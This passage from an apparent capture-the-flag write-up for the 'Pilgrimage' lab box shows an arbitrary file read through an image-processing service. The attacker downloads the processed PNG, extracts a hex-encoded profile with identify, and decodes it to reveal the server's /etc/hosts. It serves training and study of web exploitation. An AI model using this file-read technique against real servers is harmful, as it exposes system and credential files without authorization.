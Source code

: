 I’ll submit this to the site, and download the resulting file:

```

oxdf@hacky$ wget http://pilgrimage.htb/shrunk/655cd80f631f0.png    
--2023-11-21 11:17:16--  http://pilgrimage.htb/shrunk/655cd80f631f0.png                                  
Resolving pilgrimage.htb (pilgrimage.htb)... 10.10.11.219                                                
Connecting to pilgrimage.htb (pilgrimage.htb)|10.10.11.219|:80... connected.
HTTP request sent, awaiting response... 200 OK   
Length: 7525 (7.3K) [image/png]                     
Saving to: ‘655cd80f631f0.png’                                                                           
                                                    
655cd80f631f0.png          100%[=====================================>]   7.35K  --.-KB/s    in 0s      
                                                    
2023-11-21 11:17:17 (812 MB/s) - ‘655cd80f631f0.png’ saved [7525/7525]

```

`identify -verbose` will show the resulting metadata, where the file is in the `profile` section:

```

oxdf@hacky$ identify -verbose 655cd80f631f0.png                    
Image:
  Filename: 655cd80f631f0.png
  Format: PNG (Portable Network Graphics)           
  Mime type: image/png
  Class: DirectClass
...[snip]...  
    Raw profile type: 

     205
3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c677269
6d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67
206c696e65732061726520646573697261626c6520666f7220495076362063617061626c
6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c68
6f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465
730a666630323a3a32206970362d616c6c726f75746572730a
...[snip]...

```

That hex is the file that was read, and can be decoded many ways:

```

oxdf@hacky$ echo "3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c6772696d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465730a666630323a3a32206970362d616c6c726f75746572730a" 
> | xxd -r -p
127.0.0.1       localhost
127.0.1.1       pilgrimage pilgrimage.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```
